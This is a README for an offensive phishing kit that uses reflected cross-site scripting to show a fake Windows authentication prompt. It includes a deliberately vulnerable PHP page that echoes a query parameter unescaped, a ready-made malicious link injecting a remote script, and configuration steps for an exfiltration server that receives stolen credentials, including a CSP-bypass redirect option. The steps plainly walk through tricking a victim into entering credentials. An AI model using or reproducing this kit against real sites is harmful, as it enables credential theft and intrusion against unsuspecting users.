


# [Phish] Windows Authentication Prompt

* **NOTE**: two supported options (`winph.js`):

  * no CSP bypass - issue AJAX request

    ```
    ...
    var bypassCSP = false;
    ...
    ```

  * CSP bypass - issue hard redirect (uses `redir.php`)

    ```
    ...
    var bypassCSP = true;
    ...
    ```

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

### Vulnerable Page (`rxss.php`)

```
<!DOCTYPE html>
<html>
  <body>
    <h2>Test page</h2>
    <p>Test content</p>
    <?php echo '<div>' . $_GET['q'] . '</div>'; ?>
  </body>
</html>
```

## Exploitation Steps

1. [setup exploit] change payload variable values (`winph.js`; `redir.php`)

    `scheme` - exfiltration web server scheme (http/https)

    `attIP` - exfiltration web server IP address

    `attPort` - exfiltration web server port

    `bypassCSP` - use/do not use CSP bypass

    `url` - exfiltration web server URL

2. [setup exploit] setup web server (to serve the payload/redirector)

3. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.15/rxss.php?q=<script src=http://192.168.5.15/winph.js></script>
    ```

    * **NOTES**:
      * `192.168.5.15` - target site
      * `192.168.5.15` - web server hosting payload

4. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

5. [post exploit] attacker leverages obtained credentials (scenario dependent)

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter


* [web browser rendering] Mozilla FireFox



* [web browser rendering] Google Chrome


* [web browser rendering] Microsoft Edge



